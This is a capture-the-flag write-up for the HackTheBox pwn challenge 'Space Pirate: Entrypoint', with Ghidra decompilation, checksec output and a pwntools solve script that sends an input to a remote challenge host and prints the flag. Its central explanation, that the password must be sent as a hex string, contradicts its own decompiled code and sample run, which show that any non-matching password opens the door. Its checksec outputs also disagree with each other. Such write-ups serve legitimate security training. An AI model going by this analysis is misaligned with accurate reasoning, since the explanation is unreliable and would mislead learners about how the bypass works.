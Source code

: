 # CTF HackTheBox 2021 Cyber Apocalypse 2021 - Space Pirate: Entrypoint

Category: Pwn, Points: 300

![info.JPG](images/info.JPG)


Attached file [pwn_sp_entrypoint.zip](pwn_sp_entrypoint.zip)

# Space Pirate: Entrypoint Solution

Let's check the binary using ```checksec```:
```
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/pwn/Space_Pirate_Entrypoint]
└──╼ $ checksec Space Pirate Entrypoint
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

```

[Full RELRO](https://ctf101.org/binary-exploitation/relocation-read-only/) (removes the ability to perform a "GOT overwrite" attack), No canary, and no PIE.

By running the binary we get:
```console
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/pwn/Space_Pirate_Entrypoint]
└──╼ $ ./sp_entrypoint 


			 Authentication System

▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓
▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓
▓▓▓▓▓▓▓▓▓▓          ▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓          ▓▓▓▓▓▓▓▓▓
▓▓▓▓▓▓▓▓▓▓          ▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓          ▓▓▓▓▓▓▓▓▓
▓▓▓▓▓▓▓▓▓▓          ▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓          ▓▓▓▓▓▓▓▓▓
▓▓▓▓▓▓▓▓▓▓     ▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓     ▓▓▓▓▓▓▓▓▓
▓▓▓▓▓▓▓▓▓▓     ▓▓▓▒▒▓▓▓▒▒▒▒▒▓▓▒░▒▓▓▓░░▓▓▓▓▓  ░  ▓▓▓  ▓▓▓  ▓▓▓  ▓▓▓     ▓▓▓▓▓▓▓▓▓
▓▓▓▓▓▓▓▓▓▓     ▓▓▓▒▒▓▓▓▒▒▒▒▒▓▓░░░▓▓▓▒░▓▓▓▓▓ ░   ▓▓▓  ▓▓▓  ▓▓▓  ▓▓▓     ▓▓▓▓▓▓▓▓▓
▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▒▒▓▓▓▒▒▒▒▒▓▓░░░▓▓▓░░▓▓▓▓▓     ▓▓▓  ▓▓▓  ▓▓▓  ▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓
▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▒▒▓▓▓▒▒▒▒░▓▓░░░▓▓▓░░▓▓▓▓▓     ▓▓▓  ▓▓▓  ▓▓▓  ▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓
▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▒▒▓▓▓▒▒▒▒▒▓▓▒░░▓▓▓░░▓▓▓▓▓     ▓▓▓  ▓▓▓  ▓▓▓  ▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓
▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▒▒▓▓▓▒▒▒▒░▓▓░░░▓▓▓░ ▓▓▓▓▓     ▓▓▓  ▓▓▓  ▓▓▓  ▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓
▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▒▒▓▓▓▒▒▒▒▒▓▓░░░▓▓▒░░▓▓▓▓▓     ▓▓▓  ▓▓▓  ▓▓▓  ▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓
▓▓▓▓▓▓▓▓▓▓▓▓                                                        ▓▓▓▓▓▓▓▓▓▓▓▓
▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▒▒▓▓▓▒▒░░░▓▓░░░▓▓▒░ ▓▓▓▓▓     ▓▓▓  ▓▓▓  ▓▓▓  ▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓
▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▒▒▓▓▓▒░░░▒▓▓░░░▓▓▒ ░▓▓▓▓▓     ▓▓▓  ▓▓▓  ▓▓▓  ▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓
▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▒▒▓▓▓░░░░░▓▓░░░▓▓▓  ▓▓▓▓▓     ▓▓▓  ▓▓▓  ▓▓▓  ▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓
▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▒░▓▓▓▒░░░░▓▓▒  ▓▓▒  ▓▓▓▓▓     ▓▓▓  ▓▓▓  ▓▓▓  ▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓
▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▒▒▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓     ▓▓▓▓▓▓▓▓▓▓▓▓▓  ▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓
▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▒▒▓▓▓░▒░░░▓▓░  ▓▓▒  ▓▓▓▓▓     ▓▓▓  ▓▓▓  ▓▓▓  ▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓
▓▓▓▓▓▓▓▓▓▓     ▓▓▓░▒▓▓▓░░░░░▓▓░  ▓▓▒  ▓▓▓▓▓     ▓▓▓  ▓▓▓  ▓▓▓  ▓▓▓     ▓▓▓▓▓▓▓▓▓
▓▓▓▓▓▓▓▓▓▓     ▓▓▓▒░▓▓▓░░░░ ▓▓   ▓▓▒  ▓▓▓▓▓     ▓▓▓  ▓▓▓  ▓▓▓  ▓▓▓     ▓▓▓▓▓▓▓▓▓
▓▓▓▓▓▓▓▓▓▓     ▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓     ▓▓▓▓▓▓▓▓▓
▓▓▓▓▓▓▓▓▓▓          ▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓          ▓▓▓▓▓▓▓▓▓
▓▓▓▓▓▓▓▓▓▓          ▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓          ▓▓▓▓▓▓▓▓▓
▓▓▓▓▓▓▓▓▓▓          ▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓          ▓▓▓▓▓▓▓▓▓
▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓


1. Scan card 💳
2. Insert password ↪️
> 2
[*] Insert password: 1234

[+] Door opened, you can proceed with the passphrase: HTB{f4k3_fl4g_4_t35t1ng}
```

By decompiling the binary using [Ghidra](https://github.com/NationalSecurityAgency/ghidra) we can see the following ```main``` function:
```c
undefined8 main(void)
{
  long lVar1;
  long in_FS_OFFSET;
  long local_48;
  long *local_40;
  char local_38 [40];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setup();
  banner();
  local_48 = 0xdeadbeef;
  local_40 = &local_48;
  printf(&DAT_001025e0);
  lVar1 = read_num();
  if (lVar1 != 1) {
    if (lVar1 == 2) {
      check_pass();
    }
    printf(&DAT_00102668,&DAT_0010259a);
                    /* WARNING: Subroutine does not return */
    exit(0x1b39);
  }
  printf("\n[!] Scanning card.. Something is wrong!\n\nInsert card\'s serial number: ");
  read(0,local_38,0x1f);
  printf("\nYour card is: ");
  printf(local_38);
  if (local_48 == 0xdead1337) {
    open_door();
  }
  else {
    printf(&DAT_001026a0,&DAT_0010259a);
  }
  if (local_10 == *(long *)(in_FS_OFFSET + 0x28)) {
    return 0;
  }
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail();
}
```

Let's focous on option 2, As we can see it's called to ```check_pass()``` function where ```check_pass()``` code is:
```c
void check_pass(void)
{
  int iVar1;
  long in_FS_OFFSET;
  undefined8 local_28;
  undefined8 local_20;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_28 = 0;
  local_20 = 0;
  printf("[*] Insert password: ");
  read(0,&local_28,0xf);
  iVar1 = strncmp("0nlyTh30r1g1n4lCr3wM3mb3r5C4nP455",(char *)&local_28,0xf);
  if (iVar1 == 0) {
    printf(&DAT_001025a8,&DAT_0010259a);
                    /* WARNING: Subroutine does not return */
    exit(0x1b39);
  }
  open_door();
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

As we can see, If ```local_28``` is ```0nlyTh30r1g1n4lCr3wM3mb3r5C4nP455``` then ```open_door()``` function is called.

The problem is the ```read()``` function reads ```0xf``` charcacters and ```strncmp``` compare also ```0xf``` charcacters.

We can bypass it by convert ```0nlyTh30r1g1n4lCr3wM3mb3r5C4nP455``` string to hex using [CyberChef](https://gchq.github.io/CyberChef/#recipe=To_Hex('Space',0)&input=MG5seVRoMzByMWcxbjRsQ3Izd00zbWIzcjVDNG5QNDU1):
```c
306e6c7954683330723167316e346c437233774d336d6233723543346e50343535
```

Now we can send the hex string as the input to solve it.

Let's use the following ```python``` [./solve.py](./solve.py):
```python
from pwn import *

elf = ELF('./sp_entrypoint')
libc = elf.libc

if args.REMOTE:
    p = remote('46.101.27.51', 30797)
else:
    p = process(elf.path)

p.recvuntil('>')
p.sendline("2")
print(p.recvuntil(':'))
p.sendline("306e6c7954683330723167316e346c437233774d336d6233723543346e50343535")
p.interactive()
```

Run it:
```console
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/pwn/Space_Pirate_Entrypoint]
└──╼ $ python3 solve.py REMOTE
python3 exp_rop.py REMOTE
[*] '/ctf_htb/cyber_apocalypse/pwn/Space_Pirate_Entrypoint/sp_entrypoint'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RUNPATH:  b'./glibc/'
[*] '/ctf_htb/cyber_apocalypse/pwn/Space_Pirate_Entrypoint/glibc/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 46.101.27.51 on port 30797: Done
b' [*] Insert password:'
[*] Switching to interactive mode
 
[+] Door opened, you can proceed with the passphrase: HTB{th3_g4t35_4r3_0p3n!}
[-] Invalid option! Intruder detected! 🚨 🚨
[*] Got EOF while reading in interactive
```

And we get the flag ```HTB{th3_g4t35_4r3_0p3n!}```.
